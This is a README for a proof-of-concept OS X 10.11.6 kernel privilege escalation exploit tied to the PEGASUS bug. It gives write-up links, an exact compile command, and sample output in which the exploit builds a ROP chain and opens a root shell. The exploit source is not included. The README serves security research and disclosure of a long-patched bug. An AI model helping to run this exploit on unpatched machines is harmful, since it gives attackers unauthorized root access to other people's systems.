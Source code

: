#Local privilege escalation for OS X 10.11.6 via PEGASUS

 * Write up:  
         1. Chinese  Version: https://jaq.alibaba.com/community/art/show?articleid=531   
         2. English Version: https://jaq.alibaba.com/community/art/show?articleid=532
 
 * by Min(Spark) Zheng (twitter@SparkZheng, weibo@蒸米spark)

 * Note:   
         1. If you want to test this exp, you should not install Security Update 2016-001 
            (like iOS 9.3.5 patch for PEGASUS).  
         2. I hardcoded a kernel address to calcuate kslide, it maybe different on your mac.  

 
 * Compile:  
   clang -framework IOKit -framework Foundation -framework CoreFoundation -m32 -Wl,-pagezero_size,0 -O3 exp.m lsym.m -o exp

 * Run the exp:  
    MacBookPro:PEGASUS zhengmin$ ./exp   
    getting kslide...  
    kslide=0x8e00000  
    building the rop chain...  
    exploit the kernel...  
    sh-3.2# whoami  
    root  
    sh-3.2# uname -a  
    Darwin MacBookPro 15.6.0 Darwin Kernel Version 15.6.0: Thu Jun 23 18:25:34 PDT 2016; root:xnu-3248.60.10~1/RELEASE_X86_64 x86_64  


 * Special thanks to proteas, qwertyoruiop, windknown, aimin pan, jingle, liangchen, qoobee, etc.
 
 * Reference:   
              1. http://blog.pangu.io/cve-2016-4655/  
              2. https://sektioneins.de/en/blog/16-09-02-pegasus-ios-kernel-vulnerability-explained.html  
              3. https://bazad.github.io/2016/05/mac-os-x-use-after-free/  
              4. https://github.com/kpwn/tpwn  
   
